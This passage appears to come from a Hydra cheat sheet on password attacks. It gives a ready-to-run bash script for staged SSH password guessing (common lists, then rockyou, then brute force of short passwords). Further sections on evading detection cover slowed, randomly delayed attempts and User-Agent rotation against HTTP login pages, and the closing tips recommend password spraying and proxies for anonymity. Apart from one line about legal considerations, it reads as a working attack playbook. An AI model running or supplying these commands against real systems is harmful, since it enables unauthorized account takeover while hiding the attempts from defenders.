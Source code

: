 ### Progressive Attack
```bash
#!/bin/bash
# Progressive password attack

target="target.com"
users="users.txt"

# Stage 1: Common passwords
hydra -L "$users" -P common_passwords.txt ssh://"$target" -o stage1.txt

# Stage 2: Full dictionary if no results
if [ ! -s stage1.txt ]; then
    hydra -L "$users" -P rockyou.txt ssh://"$target" -o stage2.txt
fi

# Stage 3: Brute force short passwords
if [ ! -s stage2.txt ]; then
    hydra -L "$users" -x 1:6:1a ssh://"$target" -o stage3.txt
fi
```

## Counter-Detection Techniques

### Slow and Stealthy
```bash
# Very slow attack
hydra -L users.txt -P passwords.txt -t 1 -w 10 ssh://target.com

# Random delays
hydra -L users.txt -P passwords.txt -t 1 -w 3 -R ssh://target.com
```

### User-Agent Rotation
```bash
# Rotate User-Agent for HTTP attacks
for ua in "Mozilla/5.0" "curl/7.68.0" "wget/1.20.3"; do
    hydra -L users.txt -P passwords.txt -u "$ua" http-get://target.com/protected/
done
```

## Tips
- Use appropriate timing to avoid account lockouts
- Test with small wordlists first
- Use password spraying to avoid detection
- Monitor logs for lockout policies
- Be aware of legal and ethical considerations
- Use proxy for anonymity when needed
- Consider service-specific rate limiting
- Save results for analysis and documentation
- Use targeted wordlists based on reconnaissance
- Test against non-production systems when possible